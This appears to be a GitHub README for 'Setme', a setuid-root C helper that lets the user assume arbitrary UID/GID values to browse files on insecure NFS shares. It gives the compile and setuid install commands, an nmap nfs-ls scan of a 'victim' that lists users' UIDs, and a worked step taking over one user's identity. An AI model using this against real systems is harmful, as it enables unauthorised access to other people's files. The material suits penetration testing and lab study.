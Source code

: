 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from Linux host.**
This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories.
##

**Installation**
Download the file setMe.c from the repo.

Compile with:
**gcc setme.c -o setMe**
Then:
sudo chown root:root ./setMe && sudo chmod gu+s ./setMe

*Considerations:*
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you know that since your a pro.

##
**Usage:
sudo nmap --script=nfs-ls** victimIP
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex 
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs

Say we want to get into **mikes files**, we execute our binary with:
**./setME 1013 1013**
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**
pop@kali:/setme/$ **./setMe 1013 1013**
$ **id**
uid=1013 gid=1013 groups=1013


We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".


